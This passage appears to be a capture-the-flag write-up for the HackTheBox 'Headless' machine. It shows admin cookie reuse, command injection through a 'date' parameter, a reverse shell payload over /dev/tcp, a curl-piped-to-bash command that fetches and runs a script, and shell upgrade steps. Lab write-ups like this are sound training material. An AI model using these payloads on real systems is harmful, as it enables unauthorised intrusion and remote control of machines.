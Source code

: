 The cookie is base64 encoded

![Admin cookie value](/images/HTB-Headless/admin-cookie-value.png)

![Admin cookie value decoded](/images/HTB-Headless/cookie-value-decoded.png)

We go back to the `/dashboard` page and by using the new cookie value `ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0` we get access to the Administrator Dashboard.

![Cookie-Editor](/images/HTB-Headless/cookie-editor.png)

![Admin dashboard accessed](/images/HTB-Headless/Admin-dashboard.png)

## Initial Foothold

The only option available is to select a date and generate a report. After capturing the request, we see that the only new parameter is `date`. Let's test for command injection via this parameter.

![Generate Report request](/images/HTB-Headless/report-request.png)

We are indeed able to do some command injection via the parameter.

![Command Injection verified](/images/HTB-Headless/command-injection.png)

Trying to get a reverse shell directly via the date parameter does not work, even though the previous command got executed. 

```
date=2023-09-22;sh -i >& /dev/tcp/IP/PORT 0>&1
```

Since sending the reverse shell does not work we can try to execute it via curl by adding `bash` at the end of the command. We place the reverse shell in a file and we execute it on the target.

> Here is the reverse shell used: `sh -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1`

```
curl http://IP:PORT/revshell.sh|bash
```

![Reverse shell](/images/HTB-Headless/reverse-shell.png)

After sending the request we get a shell on our listener as the user `dvir`.

![Foothold](/images/HTB-Headless/foothold.png)

We upgrade our shell with the commands below.

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z
stty raw -echo; fg
stty rows 38 columns 116 
```
